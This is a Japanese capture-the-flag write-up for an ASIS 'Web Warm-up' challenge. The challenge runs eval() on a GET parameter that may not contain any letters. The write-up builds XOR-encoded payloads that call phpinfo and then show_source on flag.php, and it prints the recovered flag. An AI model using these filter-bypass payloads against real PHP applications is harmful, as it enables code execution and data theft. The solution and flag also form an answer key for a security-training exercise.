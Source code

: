 # Web Warm-up

```txt
Warm up! Can you break all the tasks? I'll pray for you!

read flag.php

Link: Link
```

## 概要

リンクを開くとphpのソースが表示される。  

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
```

warmupにアルファベットが含まれていない かつ 60文字以下な場合にevalが呼び出される様だ。  

xorでよしなにするんだろう。  
例えば以下のように`phpinfo`と`_______`をxorした値をとる。  
そしてその結果を`_______`とxorすれば`phpinfo`となり、phpinfoが実行される。

```php
$_ = ('phpinfo' ^ '_______');
print($_ . "\n");
```

> /7/6190

`url?warmup=("/7/6190"^"_______")();`にアクセスするとphpinfoが実行されているのが確認できる。

disable_functionsを見ると、system等が無効化されている。  
(これに気づかずにずっと`system(cat flag.txt)`しようとして悩んでた)

`system`が実行できないとなると、ソースコードを表示する関数を使うのだろう。  

## 解

highlight_fileでよしなにするとギリギリ60文字超えてしまい、実行してくれなかった。  
調べていると`show_source`とやらがあった。少しだけ短いのでこれにしたら行けた。

```php
$_ = ('show_source' ^ '_____________');
print($_ . "\n"); // => ,70(,0*-<:

$_ = ('flag.php' ^ '________');
print($_ . "\n"); // => 93>8q/7/
```

これを元にurlを組み立てる。

```txt
[url]/?warmup=(",70(,0*-<:"^"___________")(("93>8/7/"^"____.___"));
```

しかし、これでは実行できない。  
ローカルでソースコードをコピペして再現したら、以下のようなエラーが出ていた。

> Fatal error: Uncaught Error: Call to undefined function showsource() in C:\xampp\htdocs\ctf.php(30) : eval()'d code:1 Stack trace: #0 C:\xampp\htdocs\ctf.php(30): eval() #1 {main} thrown in C:\xampp\htdocs\ctf.php(30) : eval()'d code on line 1

「`showsource()`関数がないよ」って言っている。今呼び出したいのは`show_source`だ。  
試しに`",70(,0*-<:"^"___________"`を実行してみると、`showsource`になる。

これは、`"_"^"_"`の結果が`%00`になってしまい、表示されてなかったのが原因。  
`%00`と`_`でxorすれば`_`になるので%00を入れてやってみる。

```txt
[url]/?warmup=(",70(%00,0*-<:"^"___________")(("93>8/7/"^"________"));
```

まだ上手くいかない。ローカルで試すと以下のエラー。

> Warning: show_source(flagphp): failed to open stream: No such file or directory in C:\xampp\htdocs\ctf.php(30) : eval()'d code on line 1
Warning: show_source(): Failed opening 'flagphp' for highlighting in C:\xampp\htdocs\ctf.php(30) : eval()'d code on line 1
Parse error: syntax error, unexpected end of file in C:\xampp\htdocs\flag.php on line 2

`show_source()`はエラーなく実行できていそうだ。  
「`flagphp`がないよ」って言っている。本来は`flag.php`だ。  
`.`が抜けている。`_`と同じように`%00`と`.`をxorさせることで解決。

```txt
[url]?warmup=(",70(%00,0*-<:"^"___________")(("93>8%00/7/"^"____.___"));
```

`flag.php`が表示される。

```php
<?php
$flag = "ASIS{w4rm_up_y0ur_br4in}";
?>
```

```txt
ASIS{w4rm_up_y0ur_br4in}
```
